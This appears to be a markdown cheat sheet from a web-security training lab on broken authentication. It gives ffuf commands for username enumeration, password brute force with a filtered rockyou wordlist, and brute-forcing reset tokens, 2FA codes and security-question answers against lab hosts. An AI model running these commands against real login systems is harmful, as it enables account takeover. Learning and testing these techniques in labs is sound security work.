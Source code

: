 # Broken Authentication

## Fuzzing for usernames
### FFUF
```bash
fuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.60.100:34962/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

## Password Brute Force
### Making a list
Grep'ing out words that can't be the password due to password policy
```bash
grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```
### Brute Force Password with ffuf
```bash
ffuf -w ./custom_wordlist.txt -u http://94.237.51.73:37193/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```
### Attacking Weak Password Reset Tokens
Create a list of possible tokens
```bash
seq -w 0 9999 > tokens.txt
```
FFUF to fuzz the token
```bash
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```
### Attacking 2FA
Create a list of tokens
```bash
seq -w 0 9999 > tokens.txt
```
FFUF to fuzz the token
```bash
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```
### Vulnerable Password resets
Create a list from .csv
```bash
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```
Set up FFuF to fuzz the correct response
```bash
ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
```
